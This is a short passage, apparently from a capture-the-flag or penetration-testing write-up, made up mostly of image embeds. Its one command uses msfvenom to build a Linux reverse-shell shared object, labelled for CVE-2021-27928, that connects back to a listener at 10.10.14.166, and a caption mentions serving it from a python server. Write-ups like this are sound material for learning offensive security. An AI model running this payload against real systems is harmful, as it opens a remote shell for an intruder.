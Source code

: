<figure><img src="../../.gitbook/assets/image (10) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.166 LPORT=9898 -f elf-so -o CVE-2021-27928.so
```

<figure><img src="../../.gitbook/assets/image (11) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>and then open up a python server</p></figcaption></figure>

